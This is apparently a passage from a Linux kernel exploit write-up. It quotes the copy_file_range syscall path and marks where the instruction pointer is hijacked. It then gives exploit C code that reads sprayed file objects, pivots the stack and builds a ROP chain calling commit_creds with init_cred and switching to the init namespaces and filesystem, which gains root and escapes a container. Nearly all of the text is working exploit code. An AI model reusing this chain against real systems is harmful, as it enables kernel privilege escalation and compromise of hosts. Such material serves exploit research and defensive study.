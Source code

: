 ```c
SYSCALL_DEFINE6(copy_file_range, int, fd_in, loff_t __user *, off_in,
		int, fd_out, loff_t __user *, off_out,
		size_t, len, unsigned int, flags)
{
	// [...]
	ret = vfs_copy_file_range(f_in.file, pos_in, f_out.file, pos_out, len,
				  flags);
	// [...]
}

ssize_t vfs_copy_file_range(struct file *file_in, loff_t pos_in,
			    struct file *file_out, loff_t pos_out,
			    size_t len, unsigned int flags)
{
	// [...]
	if (!splice && file_out->f_op->copy_file_range) {
		ret = file_out->f_op->copy_file_range(file_in, pos_in,
						      file_out, pos_out,
						      len, flags); // take control RIP
		goto done;
	}
    // [...]
	return ret;
}
```

```c
// f_pos was set to i in the spraying loop, so this gives us the index i of the victim file (files[0]) and pivot file (files[1]) in spray_fds.
size_t victim_file_idx = *(size_t *)(victim_file_addr + OFFSET_FILE_FPOS);
size_t pivot_id = *(size_t *)(victim_file_addr+ALIGNED_FILE_SZ + OFFSET_FILE_FPOS);

// files[1] to control RIP, pivot stack to files[2]
u64* rop = victim_file_addr+ALIGNED_FILE_SZ*1;
int idx = 0;
idx++; // skip f_rcuhead->next
// should not modify f_rcuhead->next; its default value is NULL, and it should be left that way to avoid potential issues.
rop[idx++] = pop_rdi;
idx++; // skip f_mode (4 byte) + f_iocb_flags (4 byte)
// f_mode cannot be changed because it is used to check permissions in copy_file_range; if it is modified, the exploit will fail.
rop[idx++] = kbase+0x79bb56; // ret 0xd8 (0xd8 = ALIGNED_FILE_SZ - idx*8 (5 * 8), after ret, rsp will point to files[2])
rop[idx++] = pop_rdi+1; // ret


// files[2] to create ROP chain
idx = 0;
rop = (char*)rop + ALIGNED_FILE_SZ; 
rop[idx++] = pop_rdi;
rop[idx++] = init_cred;
rop[idx++] = commit_creds;
rop[idx++] = pop_rdi;
rop[idx++] = 1;
rop[idx++] = find_task_by_vpid;
rop[idx++] = xchg_rdi_rax;
rop[idx++] = 0; //
rop[idx++] = pop_rsi;
rop[idx++] = init_nsproxy;
rop[idx++] = switch_task_namespaces;
rop[idx++] = pop_rdi;
rop[idx++] = init_fs;
rop[idx++] = copy_fs_struct;
```